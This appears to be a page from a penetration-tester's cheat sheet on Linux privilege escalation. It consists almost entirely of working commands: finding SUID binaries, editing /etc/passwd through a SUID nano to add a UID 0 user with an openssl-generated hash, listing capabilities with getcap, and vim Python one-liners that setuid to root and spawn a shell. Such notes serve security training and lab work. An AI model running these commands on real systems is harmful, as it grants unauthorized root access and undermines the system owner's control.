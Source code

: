 * Verify executables with special permisions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -type f -perm -04000 -ls 2>/dev/null | grep bin
</strong>#Example results
<strong>1111  1  -rwsr-xr-x  1  root  root  1111  Feb  10  2030  /usr/bin/nano
</strong></code></pre>

{% hint style="info" %}
`nano` is used as example, can be any other executable with the same reading properties such as `vim`, `nvim`, etc...
{% endhint %}

***

* Abuse privileges to create user with privileges

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>openssl passwd -1 -salt AAA $password    #Create user hash
</strong><strong>nano /etc/passwd
</strong><strong>$username:$hash:0:0:root:/root:/bin/bash #Add this at final of /etc/passwd
</strong>su $username                             #Switch to the new user
</code></pre>

{% hint style="info" %}
`$username` is an arbitratry name and the `/root:/bin/bash` specificates we are requesting a root shell
{% endhint %}

***



## <mark style="color:purple;">Abusing capabilities on binaries</mark>

* Verify executables with set capabilities

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>getcap -r / 2>/dev/null
</strong>#Example results
/home/karen/vim = cap_setuid+ep
</code></pre>

{% hint style="info" %}
`vim` is used as example, can be any other executable
{% endhint %}

***

* Check binary capabilities abuse on _GTFOBins_

{% code overflow="wrap" lineNumbers="true" %}
```bash
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'  #For python3
```
{% endcode %}
